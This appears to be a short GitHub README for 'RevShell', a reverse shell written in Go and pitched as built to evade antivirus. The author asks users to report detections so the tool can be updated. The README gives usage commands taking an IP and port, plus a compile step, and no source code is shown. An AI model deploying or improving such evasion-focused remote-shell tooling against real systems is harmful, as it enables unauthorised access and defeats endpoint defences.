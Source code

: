 # RevShell
This is a reverse shell written in go to evade antivirus! If antivirus start detecting it, please open an issue and let me know! I will fix it asap!

USAGE:
```powershell
.\hello.exe ip port
```

```bash
./hello ip port
```

Compiling:
```bash
❯ bash compile.sh
```
